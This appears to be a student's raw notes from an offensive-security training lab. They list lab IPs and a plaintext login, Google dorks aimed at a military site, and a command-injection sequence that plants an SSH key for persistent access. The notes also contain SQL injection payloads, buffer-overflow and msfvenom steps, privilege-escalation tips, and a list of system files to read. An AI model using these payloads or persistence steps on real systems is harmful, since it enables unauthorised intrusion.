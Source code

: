GREYMAN
student@10.50.39.46 9MaGX5PmoRtsLKk
http://10.50.20.250:8000/challenges

linops
10.50.36.67
winops
10.50.26.46
xfreerdp /u:student /v:10.50.26.46 /dynamic-resolution +glyph-cache +clipboard

DRY Run
10.50.34.92

Phase
1: Mission Definitin
2: recon
3: footprinting
4: Exploit
5: post exp
6: Doc misssoin

exploit-db.com
virustotal

./func <<< $(./buff)
# google hacking
site: marines.mil
site: marines.mil covid 19
site: marines.mil filetype:pdf "covid 19"

 
# Recon 
for i in {1..254} ;do (ping -c 1 192.168.1.$i | grep "bytes from" &) ;done

# Web Exploitation

-command injection
(home box)
  ssh-keygen -t rsa
  cat .ssh/id_rsa.pub
(Target)
  ; whoami
  ; cat /ect/passwd
  ; ls -la /var/www
  ; mkdir /var/www/.ssh
  ; echo "id_rsa.pub" > /var/www/.ssh/authorized_keys
  ; cat /var/www/.ssh/authorized_keys
(home)
  ssh www-data@10.50.31.75

  ls -la /var/www/html
  
# sql

mysql
show databases;
show tables from session;
select * from session.car;
use session;
select * from car;
describe car;
select * from car UNION select tireid,name,size,cost,1,2 FROM Tires;
select id FROM users WHERE name='tom'or 1='1' AND pass='tom' or 1='1'

text Box()
ram' OR 1='1

# Reverse Engineering


url()
category=1 or 1=1
UNION SELECT 1,table_name,3 FROM information_schema.tables

# DEV EXPLOIT
gdb 
wiremask 
look for off set for eip 
gdb pdisass main
env - gdb (file)
show env
unset env
run and crash the program
info proc map
find /b (start of heap), (end of stack), 0xff, 0xef
find jump to eip to jum esp
msfvenom -p linux/x86/exec CMD=ifconfig -b '\x00' -f python

!mona modules
!mona jmp -r esp -m
/.hidden/inventory.exe <<<$(./mybuff.py)

# priv escalation 
procmon
crl L
path containt dll
-p windows/exec CMD='cmd.exe /C "whoami" > C:\ p\whami.txt' -f dll > sspiclr dll

LINUX


dry run
file upload
/etc/host for another box
./func <<< $(./buff)

# Scripts
http://10.50.29.85:9000/
review
nmap -v -sT -Pn -T4 -sV --script=http-enmu.nse
check for robots.txt
check all pages
--files to look for /dir tranversel
 etc/passwd
 etc/hosts
 etc/group
 etc/network
 etc/resolve.conf
-- Username and password /sql inject
A' OR 1='1
(dev tool network) switch to raw to get post to get
2 types of encode ROT13 and BASE64
-- recon new box
sudo -l
ping sweep
look at cron
find perm
nmap
-- priv esc
https://gtfobins.github.io/
-- windows
regedit
services
netstat -ano
net users 
net localgroup
task scheclde
-- win buff overflow


a' OR 1='1
find / -name hint* 2> /dev/null
scp map.png student@10.50.36.67:.
